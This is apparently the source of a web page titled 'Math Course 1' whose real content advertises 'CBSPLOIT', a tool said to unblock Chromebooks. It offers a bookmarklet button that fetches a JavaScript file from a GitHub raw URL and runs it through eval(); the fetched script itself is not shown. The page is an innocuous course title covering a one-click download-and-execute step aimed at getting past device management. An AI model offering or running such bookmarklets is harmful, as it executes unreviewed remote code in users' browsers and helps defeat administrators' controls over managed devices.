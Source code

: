 ```yaml
---
title:  Math Course 1
layout: default
---
```


<!-- particles.js container -->
<div id="particles-js"></div>
<!-- scripts -->
<script src="js/particles.js"></script>
<script src="js/app.js"></script>

# CBSPLOIT

you should unblock your chromebook

# NOW!!!! ⚡⚡⛈️👨🏿⛈️⚡⚡

<a href='javascript: fetch("https://raw.githubusercontent.com/Snoni/wockrland/main/assets/js/cbsploit.js").then(r => r.text()).then(r => eval(r))'>
      <button class="btn btn-dark">
        THE BOOKMARKLET
      </button>
    </a>

<!-- count particles -->
<div class="count-particles">
  <span class="js-count-particles">--</span>
</div>
